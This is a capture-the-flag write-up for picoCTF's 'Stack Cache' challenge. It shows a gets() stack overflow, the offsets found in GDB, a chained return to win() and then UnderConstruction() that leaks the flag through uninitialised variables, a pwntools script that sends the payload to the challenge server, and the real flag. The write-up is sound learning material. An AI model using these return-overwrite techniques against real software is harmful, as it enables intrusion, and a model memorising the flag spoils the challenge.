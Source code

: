# Stack Cache - 400 pts

### Key points

- Buffer Overflow
- Undefined Behaviour

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> Undefined behaviours are fun. It looks like Dr. Oswal allowed buffer overflows again. Analyse this program to identify how you can get to the flag.

We are given a binary and its source code.

---

### Solution

Open the source code. We have a `main()` function that calls a function `vuln()`. `vuln()` takes an input via `gets()`, which means we are free to stack smash. It also prints our input back to us. There are two other functions, `win()` and `UnderConstruction()()`, that are never called. That's not a problem though, since we can simply overwrite return addresses to the addresses of these functions.

`win()` reads a file `flag.txt`, but never actually prints it.

`UnderConstruction()()` is where the undefined behaviour the challenge hints at occurs. Some variables are defined but never initialized, and then printed. Undefined behaviour is when the result of executing a program is unpredictable. Let's see what happens if we call `UnderConstruction()()`.

---

Decompile the binary in Ghidra to find the addresses we need.

The address of `UnderConstruction()()` is `0x08049e20`.

The address of `win()` is `0x08049da0`.

Let's run the binary in GDB to find the offset. The input size buffer is set to 10, so we shouldn't have to enter a super-long string. Set a breakpoint at the return address of `vuln()`.

```
$ gdb vuln
gef> b *0x08049ef8
Breakpoint 1 at 0x8049ef8
gef> r
Starting program: /var/www/CanHack/vuln
Give me a string that gets you the flag
aaaabbbbccccddddeeeeffffgggg
aaaabbbbccccddddeeeeffffgggg

Breakpoint 1, 0x08049ef8 in vuln ()
...
gef> continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x65656464 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1d
$ebx   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$ecx   : 0x1d
$edx   : 0xffffffff
$esp   : 0xffffd470  →  "eeffffgggg"
$ebp   : 0x64646363 ("ccdd"?)
$esi   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$edi   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$eip   : 0x65656464 ("ddee"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
```

The return pointer, `$eip`, has been overwritten to `0x65656464`, which is `ddee`. So our null bytes will be the length of `aaaabbbbccccdd`, which is 14.

Let's set a breakpoint at the return address of `UnderConstruction()`, and run the program with an overwrite of `vuln()`'s return address to the address of `UnderConstruction()` (`0x08049e20`), packed as bytes.

```
gef>  b *0x08049eb3
Breakpoint 1 at 0x8049eb3
gef>  r < <(echo -ne "aaaaaaaaaaaaaa\x20\x9e\x04\x08")
Starting program: /var/www/CanHack/vuln < <(echo -ne "aaaaaaaaaaaaaa\x20\x9e\x04\x08")
Give me a string that gets you the flag
aaaaaaaaaaaaaa ▒
User information : 0x8049ef4 0x8051349 0x80e7000 0x80e7000 (nil) 0xffffd454
Names of user: 0x80c9a04 0x80e71c0 0x8051369
Age of user: 0xffffd468

Breakpoint 1, 0x08049eb3 in UnderConstruction ()
```

In C, if a variable is unitialized, it is not given a default value of 0 (unlike some other languages). Instead, it is assigned whatever value happens to be in the memory location the variable is being assigned to. We can use this exploit:

First we jump to `win()`, which _reads_ the flag into the memory, then we jump to `UnderConstruction()`, which _prints_ the memory that should have the flag in it.

`win()` doesn't have a buffer, we shouldn't need any null bytes there. Our payload will look like this:

`14 null bytes + address of win() + address of UnderConstruction()`

Lastly, don't forget to create a fake flag in `flag.txt` so `win()` doesn't complain.

```
$ echo "picoCTF{t35t_fl4g}" > flag.txt
$ gdb vuln
gef>  run < <(echo -ne "aaaaaaaaaaaaaa\xa0\x9d\x04\x08\x20\x9e\x04\x08")
Starting program: /var/www/CanHack/vuln < <(echo -ne "aaaaaaaaaaaaaa\xa0\x9d\x04\x08\x20\x9e\x04\x08")
Give me a string that gets you the flag
aaaaaaaaaaaaaa▒ ▒
User information : 0x80c9a04 0x8049ef4 0x8051349 0x80e7000 0x80e7000 0xa7d67
Names of user: 0x346c665f 0x74353374 0x7b465443
Age of user: 0x6f636970
```

If you are familiar with solving picoCTF challenges, that `0x6f636970` should raise some red flags - it's the hex representation of `pico`! (backwards for endianness). Converting the hex from there back until `7d` (`'}'`), we get our fake flag, `picoCTF{t35t_fl4g}`. Time to pwn!

---

Connect to the remote and send our payload:

```
from pwn import *

r = remote("saturn.picoctf.net", 55387)

payload = b"a" * 14 + p32(0x08049da0) + p32(0x08049e20)
r.sendline(payload)
result = r.recvall()
r.close()
```

Get the hex values:

```
result = result[result.index("0x"):]

hex_result = ""
for i in result.split():
    i = i[2:]
    try:
        int(i, 16)
    except:
        continue
    else:
        if len(i) >= 2:
            hex_result += i
```

Decode the flag and reverse it (endianness):

```
FLAG = hex_result[hex_result.index("7d"):hex_result.index("6f636970") + 8]
FLAG = bytearray.fromhex(FLAG).decode()
FLAG = FLAG[::-1]

print("Flag:", FLAG)
```

The full script is in [solve.py](solve.py).

---

## Flag

> `picoCTF{Cle4N_uP_M3m0rY_4c1cd4ab}`
